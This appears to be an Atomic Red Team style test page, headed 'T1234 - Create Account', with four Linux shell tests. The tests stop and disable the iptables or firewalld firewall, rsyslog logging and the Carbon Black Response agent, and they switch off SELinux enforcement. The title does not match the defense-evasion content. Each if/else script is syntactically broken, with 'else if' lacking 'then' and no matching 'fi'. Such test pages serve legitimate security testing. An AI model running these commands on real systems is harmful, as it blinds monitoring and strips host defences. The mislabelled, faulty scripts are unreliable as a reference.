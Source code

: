 # T1234 - Create Account
MITRE ATT&CK Technique: [T1234](https://attack.mitre.org/wiki/Technique/T1234)


- [Atomic Test #1 - Disable iptables firewall](#atomic-test-1---disable-iptables-firewall)


- [Atomic Test #2 - Disable syslog](#atomic-test-2---disable-syslog)


- [Atomic Test #3 - Disable Cb Response](#atomic-test-3---disable-cb-response)


- [Atomic Test #4 - Disable SELinux](#atomic-test-4---disable-selinux)


## Atomic Test #1 - Disable iptables firewall
Disables the iptables firewall

**Supported Platforms:** linux


#### Run it with `sh`!
```
if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "6" ];
then
  service iptables stop
  chkconfig off iptables
  service ip6tables stop
  chkconfig off ip6tables
else if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "7" ];
  systemctl stop firewalld
  systemctl disable firewalld
fi

```
\ 
\ 
## Atomic Test #2 - Disable syslog
Disables syslog collection

**Supported Platforms:** linux


#### Run it with `sh`!
```
if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "6" ];
then
  service rsyslog stop
  chkconfig off rsyslog
else if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "7" ];
  systemctl stop rsyslog
  systemctl disable rsyslog
fi

```
\ 
\ 
## Atomic Test #3 - Disable Cb Response
Disable the Cb Response service

**Supported Platforms:** linux


#### Run it with `sh`!
```
if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "6" ];
then
  service cbdaemon stop
  chkconfig off cbdaemon
else if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "7" ];
  systemctl stop cbdaemon
  systemctl disable cbdaemon
fi

```
\ 
\ 
## Atomic Test #4 - Disable SELinux
Disables SELinux enforcement

**Supported Platforms:** linux


#### Run it with `sh`!
```
setenforce 0

```
\ 
\ 
